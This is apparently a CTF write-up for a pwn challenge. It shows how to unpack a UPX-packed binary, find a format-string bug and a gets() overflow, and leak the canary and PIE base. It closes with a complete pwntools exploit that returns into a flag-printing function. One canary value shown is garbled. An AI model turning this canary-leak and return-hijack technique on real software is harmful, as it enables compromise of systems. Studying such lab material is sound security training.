





First, let's check the binary.

```sh
$ file challenge/chal
challenge/chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), statically linked, no section header

$ strings challenge/chal
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.24 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
...
UPX!
UPX!
```

After checking the strings, we can see that the binary is packed with **UPX**. Let's unpack the binary.

```pwsh
$ .\upx.exe -d chal -o chal.unpack
```

Now let's check the unpacked binary protections.

```sh
$ file challenge/chal.unpack 
challenge/chal.unpack: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d7d336a6fb868f08d310d402fd06fe7f7ce2a22c, for GNU/Linux 3.2.0, not stripped
$ pwn checksec challenge/chal.unpack
[*] '/home/ztz/projects/ctf/writeups/2025/pragyan/pwn/interesting/challenge/chal.unpack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

The binary is not stripped, and it has all the protections enabled. Where the binary is `Canary` enabled, `NX` enabled, `PIE` enabled, and `Full RELRO` enabled. Where `Canary` is enabled, we need to leak the canary to exploit the buffer overflow vulnerability. `PIE` is enabled, so we need to leak the address to calculate the base address of the binary. Let's check the main function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts(
    "########  ########     ###     ######   ##    ##    ###    ##    ## \n"
    "##     ## ##     ##   ## ##   ##    ##   ##  ##    ## ##   ###   ## \n"
    "##     ## ##     ##  ##   ##  ##          ####    ##   ##  ####  ## \n"
    "########  ########  ##     ## ##   ####    ##    ##     ## ## ## ## \n"
    "##        ##   ##   ######### ##    ##     ##    ######### ##  #### \n"
    "##        ##    ##  ##     ## ##    ##     ##    ##     ## ##   ### \n"
    "##        ##     ## ##     ##  ######      ##    ##     ## ##    ## \n"
    "\n");
  puts("Hey there! Welcome to the challenge");
  puts("The rules are simple! Say something interesting, and I will give you the flag.");
  if ( (unsigned int)fun() == 7 )
    puts("Nah! You are boring");
  return 0;
}
```

The main function calls the `fun` function.

```c
__int64 fun()
{
  __int64 v1; // [rsp+0h] [rbp-128h] BYREF
  char s[248]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v3; // [rsp+118h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  fgets(s, 230, stdin);
  __printf_chk(1LL, "You said: ");
  __printf_chk(1LL, s);                         // Format String
  puts("Do you really think that's interesting?");
  gets(&v1);                                    // Buffer Overflow
  return 7LL;
}
```

The `fun` function has a format string vulnerability and a buffer overflow vulnerability. The format string vulnerability is in the `printf` function, and the buffer overflow vulnerability is in the `gets` function. Let's check the `interesting` function.

```c
unsigned __int64 interesting()
{
  FILE *v0; // rax
  FILE *v1; // rbp
  char v3[264]; // [rsp+0h] [rbp-128h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-20h]

  v4 = __readfsqword(0x28u);
  puts("Yeah, that's interesting");
  v0 = fopen("flag.txt", "r");
  if ( !v0 )
  {
    perror("Error opening file, Contact Admin");
    exit(1);
  }
  v1 = v0;
  if ( fgets(v3, 256, v0) )
    __printf_chk(1LL, "%s", v3);
  fclose(v1);
  return v4 - __readfsqword(0x28u);
}
```

The `interesting` function opens the `flag.txt` file and prints the content of the file. The `interesting` function is the function that we need to return to get the flag.

Because the binary is `Canary` enabled, we need to leak the canary to exploit the buffer overflow vulnerability. Let's check the format string vulnerability. We can use `gdb` to set a breakpoint after `gets` function and send the format string payload to leak the canary.



`%p.` is used to leak the canary. We can see that the canary is leaked at index 43.



After leaking the canary, we can use the `canary` command to print the canary. So the canary is `0xfbe0nn390be78400`. Now let's check the canary in format string payload.



The canary is at index 43. Now let's check the address leak. We can use the format string vulnerability to leak the address of the main function.

Disassemble address from the leak `0x555555555180` we can see that the address of the main function.



Because `PIE` is enabled, and we found the address of the main function, we can calculate the base address of the binary. `0x555555555180 - 0x1180` is the base address of the binary.


So the canaries is at index 43 and the main function is at index 47 at address leak.

Now let's write the exploit script.

```c
__int64 v1; // [rsp+0h] [rbp-128h] BYREF
char s[248]; // [rsp+20h] [rbp-108h] BYREF
unsigned __int64 v3; // [rsp+118h] [rbp-10h]
```

`rbp-128h` is the buffer for the gets function, and `rbp-108h` is the buffer for the fgets function. So `0x128 - 0x10` is the offset to the canary.



So the offset to the canary is `0x118`. Now let's write the exploit script.

```py
from pwn import *

binary = './challenge/chal.unpack'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('interesting.ctf.prgy.in', 1337, ssl=True)

r.recvuntil(b"give you the flag.\n")
r.sendline(b"%p." * 50)
leaks = r.recvline().decode().split(".")

pie_leak = int(leaks[47], 16) # Main function address from pie
e.address = pie_leak - 0x1180
log.success(f"Binary Base Address: {hex(e.address)}")

interesting_addr = e.symbols["interesting"] + 8 # +8, idk why too, local works without it
log.success(f"Interesting() Address: {hex(interesting_addr)}")

canary = int(leaks[43], 16)
log.success(f"Canary: {hex(canary)}")

payload = cyclic(280)
payload += p64(canary)            # Canary
payload += cyclic(8)              # RBP
payload += p64(interesting_addr)  # Return to interesting() function

r.recvuntil(b"Do you really think that's interesting?\n")
r.sendline(payload)

r.interactive()
```
